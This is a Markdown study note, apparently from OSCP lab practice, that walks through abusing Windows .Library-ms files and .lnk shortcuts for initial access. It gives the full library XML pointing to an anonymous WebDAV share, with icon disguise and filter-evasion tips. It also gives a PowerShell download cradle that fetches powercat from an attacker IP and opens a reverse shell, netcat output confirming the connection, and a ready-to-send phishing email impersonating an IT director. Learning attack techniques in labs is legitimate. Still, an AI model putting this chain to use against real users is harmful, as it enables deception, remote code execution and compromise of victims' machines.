




# Abusing Windows Library Files
Even though [macros](microsoft-word-macros.md) are used commonly in organizations, they are usually well protected against as well. A lesser known, and equally effective threat are [Windows](../../computers/windows/README.md) library files.
## What are Library Files
On Windows, library files are *virtual containers* used for user content. They're used for connecting users with data stored in local *or in remote locations* like web services or file shares. They have a `.Library-ms` file extension (file extensions are significant on Windows machines b/c they determine how a file will be executed by the system, read more [here](../../computers/concepts/file-extensions-and-execution.md#Windows)).

When you include an already existing folder into a library *it doesn't move the original folder* or change its storage location. Instead, the library holds *a view into the folder*. However, if you were to move, copy, or delete the files in the library, then you would *actually move/copy/delete* the actual file (they're not copies).

For example, a user can use a Library to aggregate all of their music files into one location. If they have music files on the local computer, as well as on remote shares somewhere, the "Music" library will provide access to all of those files as well as sorting and file manipulation.
### Default Libraries
Some file locations are also libraries *by default*. This includes:
- The Documents folder
- Music
- Pictures
- Video

These are built on top of the legacy folders My Documents, My Pictures, My Music, etc.. So, when a user drags, copies, or saves a file to the "Documents" library, the file is also dragged, copied, or saved in the "My Documents" folder.
## Using libraries to gain a foothold
Our entire attack will be two stages. In the first stage, we'll use library files to gain the initial foothold. First, we need to setup a [WebDAV](../../www/WebDAV.md) share. Then, we'll create a library file which *connects to our WebDAV share*. Then, we'll deliver the library file to the victim. For this to work, the victim has to double click our file.

When the victim clicks the file, it will be downloaded and appear as a *regular folder in their Windows Explorer*. If they open the folder, they'll unknowingly be connected to our WebDAV share. On the WebDAV share, we'll have a `.lnk` shortcut file which will serve as our payload and set up the second stage.
### Setting up WebDAV Share
To setup our WebDAV share on Kali, we can use `WsgiDAV`. `WsgiDAV` will be a WebDAV server and will host our malicious files. We can install it with [python](../../coding/languages/python/python.md)'s `pip3`:
```bash
pip3 install wsgidav
```
Next, we need to create the directory which will serve as our WebDAV share and a `test.txt` file:
```bash
mkdir /home/trshpuppy/oscp/client-side/webdav

touch /home/trshpuppy/oscp/client-side/webdav/test.txt
```
Then, we can use the `wsgidav` command line tool we just installed to host our share:
```bash
/home/trshpuppy/oscp/client-side/wbvenv/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/trshpuppy/oscp/client-side/webdav

Running without configuration file.
20:47:24.278 - WARNING : App wsgidav.mw.cors.Cors(None).is_disabled() returned True: skipping.
20:47:24.279 - INFO    : WsgiDAV/4.3.3 Python/3.13.2 Linux-6.8.11-arm64-aarch64-with-glibc2.38
20:47:24.279 - INFO    : Lock manager:      LockManager(LockStorageDict)
20:47:24.279 - INFO    : Property manager:  None
20:47:24.279 - INFO    : Domain controller: SimpleDomainController()
20:47:24.279 - INFO    : Registered DAV providers by route:
20:47:24.279 - INFO    :   - '/:dir_browser': FilesystemProvider for path '/home/trshpuppy/oscp/client-side/wbvenv/lib/python3.13/site-packages/wsgidav/dir_browser/htdocs' (Read-Only) (anonymous)
20:47:24.279 - INFO    :   - '/': FilesystemProvider for path '/home/trshpuppy/oscp/client-side/webdav' (Read-Write) (anonymous)
20:47:24.279 - WARNING : Basic authentication is enabled: It is highly recommended to enable SSL.
20:47:24.279 - WARNING : Share '/' will allow anonymous write access.
20:47:24.279 - WARNING : Share '/:dir_browser' will allow anonymous write access.
20:47:24.279 - WARNING : Could not import lxml: using xml instead (up to 10% slower). Consider `pip install lxml`(see https://pypi.python.org/pypi/lxml).
20:47:24.296 - INFO    : Running WsgiDAV/4.3.3 Cheroot/10.0.1 Python/3.13.2
20:47:24.296 - INFO    : Serving on http://0.0.0.0:80 ...
```
- `--auth=anonymous` disables authentication on our share
- `--root` tells `wsgidav` to use our new directory as the root of our WebDAV share

We can confirm our WebDAV server is running by visiting port 80 or our localhost in the browser:

## Creating our Library File
Library files are made up of *three major parts* and are written in [XML](../../coding/markup/XML.md). The XML specifies the parameters for accessing remote and/or local locations.
### Library Description File Example
This Library Description file defines a library for document files. 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@shell32.dll,-34575</name>
    <ownerSID>S-1-5-21-379071477-2495173225-776587366-1000</ownerSID>
    <version>1</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1002</iconReference>
    <templateInfo>
        <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
        <searchConnectorDescription publisher="Microsoft" product="Windows">
            <description>@shell32.dll,-34577</description>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <simpleLocation>
                <url>knownfolder:{FDD39AD0-238F-46AF-ADB4-6C85480369C7}</url>
                <serialized>MBAAAEAFCAAA...MFNVAAAAAA</serialized>
            </simpleLocation>
        </searchConnectorDescription>
        <searchConnectorDescription publisher="Microsoft" product="Windows">
            <description>@shell32.dll,-34579</description>
            <isDefaultNonOwnerSaveLocation>true</isDefaultNonOwnerSaveLocation>
            <simpleLocation>
                <url>knownfolder:{ED4824AF-DCE4-45A8-81E2-FC7965083634}</url>
                <serialized>MBAAAEAFCAAA...HJIfK9AAAAAA</serialized>
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```
### Library Description Schema
A library's Description File is made up of three major parts:
 1. General Information: This part contains information about the library including its name, the owner, the version, and the display icon which Windows uses to display to the user.
2. Library Properties: Properties which describe the Library. Usually custom and *describe the specific Library*.
3. Library Locations: One or more search connectors which identify storage locations to *include in the library*. Each location can also have its own unique properties.
#### 1. General Information
##### Namespace Versioning
For `.library-ms` files, versioning is tracked by changing the file's namespace. For example, on Windows 7, the file format would have the following *default* namespace: `https://schemas.microsoft.com/windows/2009/library`. 

When it comes to the contents inside the library, version is tracked using the `<version>` element inside a specific Library Description file.
##### `<libraryDescription` tag
Note that the opening tag is `<libraryDescription>`. All of the tags for describing the library will be listed between this opening tag, and its complementary `</libraryDescription>` closing tag. 
##### `<name>` tag
After the opening `<libraryDescription>` tag comes the `<name>` tag which specifies the name of the library. This name *is not arbitrary* and must instead be a *DLL name and index*. This name will be *displayed in the File Explorer*.
###### Name Format
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <name>@shell32.dll,-34575</name>
...
```
> [!Note]
> You may want to choose a DLL name that's unlikely to trigger any text-based filters. For instance `shell32.dll` may trigger an alert.
##### `<version>` tag
This is different from the namespace version. This tag tracks *the version of the library itself* and can have any numeric value we want.
```xml
...
  <name>@shell32.dll,-34575</name>
  <version>69</version>
...
```
##### `<isLibraryPinned` tag
This element tells whether the library *is pinned to the navigation pane* in Windows Explorer. If we set it to `true`, then it will pin to the pane which is a small detail which might add some more credibility to our attack.
##### `<iconReference>` tag
This tag determines *what icon will be displayed* to the user for the library file. When you create a `.Library-ms` file, the icon it appears with is slightly different and may raise alarm bells:

So, we can use this tag to give our library *a less conspicuous* icon. To do so, we'll use `imageres.dll` to choose an image from all of the available Windows icons. We'll need to give an index as well. Each index into the `imageres` DLL corresponds to one of the available icons. For example, the index `-1002` is the index for the Documents folder icon. `-1003` corresponds to the Pictures folder icon:
```xml
...
  <version>69</version>
  <iconReference>imageres.dll,-1003</iconReference>
...
```
#### 2. Library Properties
##### `<templateInfo>` tag
This tag, and its child tag `<folderType>`, determine the *columns and details* which appear in Windows Explorer when the library is opened by a user.  The `<folderType>` child tag *is required* if `<templateInfo>` exists. The value of this tag is set to a *GUID* which corresponds to a folder type. You can look up GUIDs to use on the [Microsoft website](https://learn.microsoft.com/en-us/windows/win32/shell/schema-library-foldertype) but here is what's listed there (at time of writing):

| Folder Type      | GUID                                   |
| ---------------- | -------------------------------------- |
| Generic Library  | {5f4eab9a-6833-4f61-899d-31cf46979d49} |
| Users Libraries  | {C4D98F09-6124-4fe0-9942-826416082DA9} |
| Documents Folder | {7D49D726-3C21-4F05-99AA-FDC2C9474656} |
| Pictures Folder  | {B3690E58-E961-423B-B687-386EBFD83239} |
| Videos Folder    | {5fa96407-7e77-483c-ac93-691d05850de8} |
| Games Folder     | {b689b0d0-76d3-4cbb-87f7-585d0e0ce070} |
| Music Folder     | {94d6ddcc-4a68-4175-a374-bd584a510b78} |
| Contacts         | {DE2B70EC-9BF7-4A93-BD3D-243F7881D492} |

Let's use the Documents Folder GUID for ours:
```xml
...
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
	  <folderType>{7D49D726-3C21-4F05-99AA-FDC2C9474656}</folderType>
  </templateInfo>
...
```
#### 3. Library Locations
This section is used to specify *the storage locations* where our library files should point to. 
##### `<searchConnectorDescriptionList>` tag
This contains a list of the *search connectors* the library files will use to determine connection settings to *remote locations*. We can give more than search connector which will be defined inside child `<searchConnectorDescription>` tags:
```xml
...
  <templateInfo>
	  <folderType>{7D49D726-3C21-4F05-99AA-FDC2C9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
	  <searchConnectorDescription>
		  <isDefaultSaveLocation>true</isDefaultSaveLocation>
		  <isSupported>false</isSupported>
		  <simpleLocation>
			  <url>http://192.168.45.232</url>
		  </simpleLocation>
	  </searchConnectorDescription>
  </searchConnectorDescriptionList>
...
```
This is where we're going to *specify our malicious WebDAV share*. 
- the `<isDefaultSaveLocation>` tag tells the Windows Explorer that if the user saves a file to this library, to use the *default behavior and location* (when set to `true`)
- the `<isSupported>` tag is used for compatibility (we set this to `false`)
- the `<url>` tag is the most important and specifies the location of a remote folder (i.e. our WebDAV share)
### Using VSCode
We're going to use VSCode to create our library file. And to any of you reading who just gagged a little, relax.  You could use notepad or vim or whatever if you want, but we're on a Windows host and we just need to get the shit done. VSCode will give us XML formatting and syntax highlighting, so take your 31337ness and shove it for a second. Here is our entire file:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@windows.storage.dll,-34582</name>
    <version>6</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
    <templateInfo>
        <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
        <searchConnectorDescription>
            <isDefaultSaveLocation>true</isDefaultSaveLocation>
            <isSupported>false</isSupported>
            <simpleLocation>
                <url>http://192.168.45.232</url>
            </simpleLocation>
        </searchConnectorDescription>
    </searchConnectorDescriptionList>
</libraryDescription>
```
### Testing
Save the file to your Desktop, then double click it on the Desktop. If it worked, then we should see our `test.txt` file from our rogue WebDAV share!

## Issues
After testing our successful connection back to our WebDAV share, if we open the file again using VSCode, we'll see that the Windows machine *modified it*. There is now a `<serialized>` tag and the url in our `<url>` tag has changed. This is because Windows is trying to optimize the connection to our share for the *Windows WebDAV client*. Mine now looks like this:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
  <name>@windows.storage.dll,-34582</name>
  <version>8</version>
  <isLibraryPinned>true</isLibraryPinned>
  <iconReference>imageres.dll,-1003</iconReference>
  <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
  </templateInfo>
  <searchConnectorDescriptionList>
    <searchConnectorDescription>
      <isDefaultSaveLocation>true</isDefaultSaveLocation>
      <isSupported>false</isSupported>
      <simpleLocation>
        <url>\\192.168.45.232\DavWWWRoot</url>
        <serialized>MBAAAEAFCAAAAAAAADAAAAAAAYkg<REALLY LONG BASE64>AAAAAAAAA</serialized>
      </simpleLocation>
    </searchConnectorDescription>
  </searchConnectorDescriptionList>
</libraryDescription>
```

Our library file will still work, *but it may not work on other machines* or after the user *restarts their computer*. If this happens, our exploit may fail because Windows Explorer will at that point be showing the user an empty WebDAV share. The only way to fix this is by modifying the file and pasting in the original content, which is kind of a PITA. Fortunately, we really only need to victim to double-click our file once.
## Stage Two: Shortcut File
Reset the `tiddies.library-ms` file to its original state. Now, we're moving on to stage two: creating the shortcut file. Basically, this shortcut file will exist in our WebDAV share and we're hoping once the victim opens the share (via the library), they'll click on the shortcut file. Once they do, the shortcut will execute a reverse shell for us.
### Creating the Shortcut File
[.LNK](../../computers/windows/LNK.md) files (`.lnk`) are metadata files specific to [Windows](../../computers/windows/README.md) and can be interpreted by the Windows Shell. It's used primarily for creating link "shortcuts" to files and applications in the filesystem. 

We can use a `.lnk` file to link to our exploit which will be another [powershell](../../computers/windows/powershell.md) [download cradle](../../cybersecurity/TTPs/actions-on-objective/download-cradles.md). Right click the Desktop and click New --> Shortcut. In the window that pops up, we're going to enter a *path to a program* as well as *arguments*. Let's use powershell as our program and a download cradle as our arguments. For reference, this will be our cradle:
```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.45.232:8000/powercat.ps1');powercat -c 192.168.45.232 -p 44444 -e powershell"
```

#### Naming the shortcut file
Once we hit Next, we'll be prompted to name our shortcut file. Let's name it "tits_mcgee", then click Finish.
### Testing
Make sure [netcat](../../cybersecurity/TTPs/exploitation/tools/netcat.md) and our [python](../../coding/languages/python/python.md) [HTTP](../../www/HTTP.md) server are both listening. Python should be serving our `powercat.ps1` file. Once they're up, test the shortcut file by double clicking it on the desktop. If it's working, we should get some output in netcat:
```bash
┌─[25-04-21 15:16:52]:(root@192.168.45.232)-[/home/trshpuppy/oscp/client-side]
└─# nc -nlvp 44444
listening on [any] 44444 ...
connect to [192.168.45.232] from (UNKNOWN) [192.168.112.194] 65501
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Windows\System32\WindowsPowerShell\v1.0>
```
## Exploit
Now that stage 1 and 2 are ready, let's turn this into a real attack. Realistically, we would have to deliver this probably via some kind of [social-engineering](../../cybersecurity/TTPs/delivery/social-engineering.md) ([phishing](../../cybersecurity/TTPs/delivery/phishing.md) or vishing) (yes I have sent a malicious document to a victim via email during a vishing call and convinced them to scan a QR code; there are a lot of possibilities). 
### Get the Files Ready
First, take `test.txt` our of our WebDAV share. Next, copy our `.lnk` file into the WebDAV share. Make sure you reset it to its origin content (before executing it on Windows). Next, start the python server on port `8000` to server `powercat.ps1`. Finally, start netcat listening on port 44444.
### Delivering the Library file
Normally, we would probably email the library file to the victim in a phishing email with a pretext that convinces them to download the file. Remember that the `<url>` tag in the library file is *pointing to our WebDAV share*. When the victim opens it on their machine, they should see our `.lnk`.

Let's say the `.lnk` is named `auto-config`. It should look like this when they download the library file and open it:

So we could use a pretext like:
```markdown
Good afternoon,

We're rolling out a new security product from <INJECT RANDOM SECURITY COMPANY>. In case of any mis-configurations or bugs, we'll be rolling this out in staggered groups over the next week. If you're receiving this email, you're part of the first group.

We will be adopting this product company-wide with a goal of completing implementation by the end of this month. So please be patient as we introduce this new system into our environment.

STEPS
1. Download the attached file
2. Open the folder and click "auto_config"

That's all you have to do! This will install the new software as if one of our IT staff were installing it manually on your computer.

If you notice any issues, please respond to this email and include whatever details you can. Thank you.

- Bobby Tables, Director of IT
```
Once the victim downloads the library file (disguised as a regular Documents folder via the `<iconReference>` tag) and double clicks our `auto_config` shortcut/`.lnk` file, we should see our reverse shell output from netcat.

> [!Resources]
> - [Microsoft: Windows Libraries](https://learn.microsoft.com/en-us/windows/client-management/client-tools/windows-libraries)
> - [ForensicsWiki: Shortcut files](https://web.archive.org/web/20220519184752/https://forensicswiki.xyz/page/LNK) 
> - [Microsoft: Library Description Schema](https://learn.microsoft.com/en-us/windows/win32/shell/library-schema-entry)
> - My [own notes](https://github.com/trshpuppy/obsidian-notes) linked throughout the text.